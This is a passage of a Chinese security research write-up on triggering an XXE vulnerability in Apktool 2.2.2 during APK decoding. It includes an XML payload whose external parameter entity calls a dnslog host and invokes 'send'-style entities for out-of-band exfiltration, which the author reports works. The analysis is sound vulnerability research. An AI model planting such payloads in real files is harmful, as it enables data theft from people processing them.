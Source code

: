2.2.2 这里的 XXE 是需要 build apk 的时候才能触发 那能够在 decode 的时候触发 XXE 吗  
在 thinkycx 师傅的博客里提到了 - [https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html#generated-hash-5](https://thinkycx.me/2017-12-18-Apktool-XXE-analysis.html#generated-hash-5)  
[![](assets/1706146429-6a0c733fb212adeae67915d5f8708451.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1705639269639-f9f2b090-8b6f-4c60-9d7c-7d1e8311e8ef.png#averageHue=%238f8e8a&clientId=u149252e1-0fd9-4&from=paste&height=459&id=ubc114732&originHeight=688&originWidth=881&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=104352&status=done&style=none&taskId=u9263309e-7100-4c6e-90b2-a0f458702cb&title=&width=587.3333333333334)  
但是看起来当时应该没有构造出这个恶意 APK  
那么我们是否可以使用 010editor 来构造这个恶意 AndroidManifest.xml 文件，直接生成对应的 APK，让 apktool2.2.2 decode 的时候触发 XXE  
使用 dnslog 来构造恶意 XML，测试之后发现这样是可以触发的

```plain
<!DOCTYPE root [
        <!ENTITY  % dtd  SYSTEM "http://b5g7im.dnslog.cn">
        %dtd;
        %all;
        %send;
        ]>
<resources>
    <string name="app_name">My Application</string>
    <string name="test">
        aaaa
    </string>
</resources>
```
